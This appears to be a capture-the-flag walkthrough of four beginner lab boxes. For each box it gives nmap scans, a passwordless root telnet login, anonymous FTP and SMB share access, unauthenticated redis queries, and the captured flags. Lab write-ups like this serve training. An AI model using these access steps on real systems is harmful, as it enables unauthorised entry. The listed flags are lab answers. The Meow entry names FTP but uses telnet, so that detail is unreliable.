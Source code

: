 # TIER 0 STARTING POINT

--------------------------------------------------------------------

**TOOLS USED**: nmap

--------------------------------------------------------------------

## MEOW BOX

**IP Address**: 10.129.70.43

```
nmap -sC -sV -oN nmap.txt 10.129.70.43
```

**EXPOSED PORT (SERVICE)**: 21 (ftp)

```
telnet 10.129.70.43
```

user: root

FLAG: b40abdfe23665f766f9c61ecba8a4c19

--------------------------------------------------------------------

## FAWN BOX

**IP Address**: 10.129.98.220

```
nmap -sC -sV -oN nmap.txt 10.129.98.220
```
**EXPOSED PORT (SERVICE)**: 21 (ftp)

Anonymous ftp login was enabled

```
ftp 10.129.98.220
```

user: anonymous<br>
password: anonymous<br>

```
get flag.txt
```

FLAG: 035db21c881520061c53e0536e44f815

--------------------------------------------------------------------

## DANCING BOX

**IP Address**: 10.129.142.29

```
nmap -sC -sV -oN dancing_nmap.txt 10.129.142.29
```

**EXPOSED PORT (SERVICE)**:<br>
135 (msrpc),<br>
139 (netbios-ssn),<br>
445 (microsoft-ds)

To list the smb shares:

```
smbclient -L 10.129.142.29
```
Shares: ADMIN$, C$, IPC$, WorkShares

WorkShares doesn't require a password. Other ones are default shares ($)

```
smbclient //10.129.142.29/WorkShares
get flag.txt
```

FLAG: 5f61c10dffbc77a704d76016a22f1664

--------------------------------------------------------------------

## REDEEMER BOX

**IP Address**: 10.129.34.251

```
nmap -sC -p- -T5 -oN redeemer_nmap.txt 10.129.34.251
```

-p-: all ports
-T5: speed up scan because -p- is slow (T0 slowest but most evasive, T5 quickest but aggressive)

**EXPOSED PORT (SERVICE)**: 6379 (redis)

Redis: in-memory database

```
redis-cli -h 10.129.34.251
INFO SERVER
INFO KEYSPACE
SELECT 0
KEYS *
GET FLAG
```

FLAG: 03e1d2b376c37ab3f5319922053953eb"
